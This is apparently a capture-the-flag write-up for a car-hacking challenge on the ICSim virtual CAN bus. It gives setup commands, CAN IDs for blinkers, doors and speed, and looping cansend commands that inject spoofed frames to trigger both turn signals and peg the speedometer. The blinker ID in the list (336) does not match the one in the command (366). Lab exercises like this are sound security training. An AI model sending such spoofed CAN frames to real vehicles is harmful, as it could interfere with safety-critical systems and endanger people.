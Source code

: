 # Virtual vehicle environment

> Use the following commands: ./controls -l 3 -s 1593226520 vcan0

## My setup

First window:

	$ ./controls -l 3 -s 1593226520 vcan0

Second window

	$ ./icsim -s 1593226520 vcan0 -d

Third window

	$ cansniffer vcan0 -c

See the output

## Challenge and Solution

(a) Find the CAN ID of the Blinkers.

(b) Find the CAN ID that opens all vehicle doors.

(c) Find the CAN ID that increases the speed.

- Blinking lights: ID 336 (Last Byte)
- Vehicle Doors: ID 780
- Speed: ID 3C3 (4th Byte)

Send CAN messages to make both right and left signals light up at the same time. Once you are done, show the results to a crew to get your points awarded.

	$ while true; do cansend vcan0 366#0000000003; done

Send CAN messages to max out the speedometer. Once you are done, show the results to a crew to get your points awarded.

	$ while true; do cansend vcan0 3C3#000000ff000000; done

## References

https://medium.com/@yogeshojha/car-hacking-101-practical-guide-to-exploiting-can-bus-using-instrument-cluster-simulator-part-ee998570758
